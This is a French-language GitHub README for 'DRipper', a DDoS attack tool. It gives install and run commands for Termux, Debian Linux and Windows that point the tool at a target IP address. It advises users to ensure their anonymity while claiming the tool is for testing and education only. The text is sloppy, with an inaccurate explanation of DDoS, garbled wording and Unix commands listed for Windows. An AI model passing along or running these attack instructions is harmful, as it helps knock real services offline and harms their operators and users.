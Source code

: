 # ddos
Attaque ddos :

Un serveur d'attaque par déni de service distribuable (DDOS) qui coupe les cibles ou l'infrastructure environnante dans un flot de trafic Internet

Les attaques DDoS sont efficaces en utilisant plusieurs systèmes informatiques compromis comme source de trafic d'attaque. Les moteurs de recherche peuvent inclure des ordinateurs et d'autres ressources réseau telles que des appareils IoT.
D'un niveau supérieur, l'attaque DDOS est comme un embouteillage inattendu bloqué sur une autoroute, empêchant le trafic régulier d'atteindre sa destination.

## Pour Termux

Pour utiliser le DRipper, tapez les commandes suivantes dans Termux :

pkg install git -y

pkg install python -y

pkg install python3 -y

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py 

## USGAE

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour les distributions GNU/Linux basées sur Debian
Pour utiliser l'application, tapez les commandes suivantes dans le terminal GNU/Linux.

sudo apt install git

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python2 DRipper.py

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

## Pour Windows

sudo git clone https://github.com/greyhatworld/ddos.git

cd ddos

ls

python3 DRipper.py OU python DRipper.py

python3 DRipper.py -s [ip Address] -t 135

exemple: python3 DRipper.py -s 0.00.00.00 -t 135

# Noter:
Si vous rencontrez des problèmes, veuillez écrire à akkinnator@gmail.com. Ne pas utiliser pour se venger ! Assurez-vous de votre anonymat!
Il est fait uniquement à des fins de test.
Nous ne sommes pas responsables des abus ou des dommages causés par ce programme. Uniquement à des fins éducatives.
Merci.
 
## Exigences ▶

●🖥Système d'exploitation Linux (Kali 🐉 Ubuntu)

●📱Termux >

●🖥Fenêtres

# Modifié par Akkinntor
